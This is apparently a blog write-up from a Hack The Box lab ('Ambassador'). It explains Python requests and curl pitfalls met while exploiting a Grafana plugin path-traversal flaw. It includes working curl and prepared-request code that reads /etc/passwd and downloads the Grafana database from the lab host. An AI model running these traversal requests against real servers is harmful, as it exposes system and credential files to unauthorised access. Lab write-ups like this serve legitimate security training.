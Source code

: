 +++
author = "Frenchie"
title = "Ambassador HTB"
date = "2023-01-29"
description = "Ambassador HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

While doing manual LFI at grafana endpoint, I tried to exfill sqlite3 db from /var/lib/grafana/grafana.db

<!--more-->

The initial code:
```python
if r.status_code == 200:
    print(r.text)
```

Using r.text from requests library caused sqlite3 db became corrupted.
Need to use proper method.
```python
if r.status_code == 200:
    with open("grafana-python.db", "wb") as file:
        file.write(r.content)
```

> Use requests.content instead of requests.text for bytes-type data.
> [Docs](https://requests.readthedocs.io/en/latest/user/quickstart/#binary-response-content)

### Encodings
When you receive a response, Requests makes a guess at the encoding to use for decoding the response when you access the Response.text attribute. Requests will first check for an encoding in the HTTP header, and if none is present, will use charset_normalizer or chardet to attempt to guess the encoding.

If chardet is installed, requests uses it, however for python3 chardet is no longer a mandatory dependency. The chardet library is an LGPL-licenced dependency and some users of requests cannot depend on mandatory LGPL-licensed dependencies.

When you install requests without specifying [use_chardet_on_py3] extra, and chardet is not already installed, requests uses charset-normalizer (MIT-licensed) to guess the encoding.

The only time Requests will not guess the encoding is if no explicit charset is present in the HTTP headers and the Content-Type header contains text. In this situation, RFC 2616 specifies that the default charset must be ISO-8859-1. Requests follows the specification in this case. If you require a different encoding, you can manually set the Response.encoding property, or use the raw Response.content.

---

For sending GET requests without url normalization, use curl with `--path-as-is`

```text
curl --path-as-is http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd -x 127.0.0.1:8080
```

With requests module in python3, using requests.get will not work. Need to use prepared requests.
[Docs](https://requests.readthedocs.io/en/latest/user/advanced/#prepared-requests)

```python
import requests

url = 'http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd'
proxies = {"http": "127.0.0.1:8080"}
s = requests.Session()
req = requests.Request(method='GET', url=url)
prep = req.prepare()
prep.url = url
r = s.send(prep, verify=False, timeout=3)
# r = s.send(prep, verify=False, timeout=3, proxies=proxies)  # WILL NOT WORK WITH PROXIES
print(r.text)
```

> CANNOT using proxies in prepared requests. The url will get normalized!

---

Curl can work without specifying protocol scheme.
```bash
curl 10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd --path-as-is
```

in Python3, without protocol scheme (http/https) requests will error: No connection adapters were found.

> Without the http:// part, requests has no idea how to connect to the remote server.
>
>Note that the protocol scheme must be all lowercase; if your URL starts with HTTP:// for example, it won’t find the http:// connection adapter either.
> — <cite>[source](https://stackoverflow.com/questions/15115328/python-requests-no-connection-adapters)</cite>

> Remember typing http!